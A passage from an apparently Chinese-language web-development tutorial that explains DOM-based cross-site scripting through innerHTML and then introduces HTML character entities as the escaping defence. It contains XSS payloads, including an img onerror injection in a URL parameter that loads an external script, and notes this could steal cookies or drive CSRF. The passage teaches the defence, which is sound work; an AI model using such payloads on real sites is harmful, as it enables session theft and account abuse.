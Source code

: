 document.getElementById("d1").innerHTML="<img src=@ onerror=alert(1)>"
此时立刻就弹窗了 1。

也许你会想，不就是弹窗个 1 吗？还能怎么样？能写多少代码？

那我把地址改成 www.example.com/user.html?name=<img src=@ onerror='var s=document.createElement("script");s.src="https://mqyqingfeng.github.io/demo/js/alert.js";document.body.appendChild(s);' /> 呢？

就相当于：

```js
document.getElementById("username").innerHTML =
  '<img src=@ onerror=\'var s=document.createElement("script");s.src="https://mqyqingfeng.github.io/demo/js/alert.js";document.body.appendChild(s);\' />';
```

整理下其中 onerror 的代码：

```js
var s = document.createElement("script");
s.src = "https://mqyqingfeng.github.io/demo/js/alert.js";
document.body.appendChild(s);
```

代码中引入了一个第三方的脚本，这样做的事情就多了，从取你的 cookie，发送到黑客自己的服务器，到监听你的输入，到发起 CSRF 攻击，直接以你的身份调用网站的各种接口

总之，很危险。

为了防止这种情况的发生，我们可以将网址上的值取到后，进行一个特殊处理，再赋值给 DOM 的 innerHTML。

## 字符实体

在 HTML 中,某些字符是预留的,<>,浏览器会认为他们是标签,因此使用字符实体

字符实体两种形式:

1. &entity_name;
2. &#entity_number;

比如说我们要显示小于号，我们可以这样写：&lt; 或 &#60;

也许你会好奇，为什么 < 的字符实体是 &#60 呢？这是怎么进行计算的呢？

其实很简单，就是取字符的 unicode 值，以 &# 开头接十进制数字 或者以 &#x 开头接十六进制数字。举个例子：

```js
var num = "<".charCodeAt(0); // 60
num.toString(10); // '60'
num.toString(16); // '3c'
```

我们可以以 &#60; 或者 &#x3c; 在 HTML 中表示出 <。

显示的效果都是 <：

```html
<div>&lt;</div>
<div>&#60;</div>
<div>&#x3c;</div>
```

